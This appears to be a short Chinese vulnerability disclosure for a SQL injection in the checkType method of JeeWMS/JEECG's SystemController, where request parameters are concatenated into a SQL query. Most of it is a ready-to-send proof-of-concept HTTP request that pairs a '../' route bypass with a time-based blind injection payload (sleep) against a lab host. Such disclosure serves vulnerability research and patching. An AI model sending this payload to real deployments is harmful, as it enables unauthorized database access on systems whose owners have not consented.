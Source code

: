 `org.jeecgframework.web.system.controller.core.SystemController#checkType`

`checkType`方法中将`request`中的可控参数直接拼接到了`SQL`查询语句中

![image-20250725112847195](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725112847195.png?imageSlim)

验证`POC`

```http
GET /jeewms/wmsApiController.do/../systemController.do?checkType&param=1'+OR+sleep(0.02)%3D0+AND+'1'='1&code=1&typeGroupCode=1 HTTP/1.1
Host: 192.168.21.128:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
```

![image-20250725112949324](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725112949324.png?imageSlim)

![image-20250725113015630](https://img-1325537595.cos.ap-beijing.myqcloud.com/image-20250725113015630.png?imageSlim)

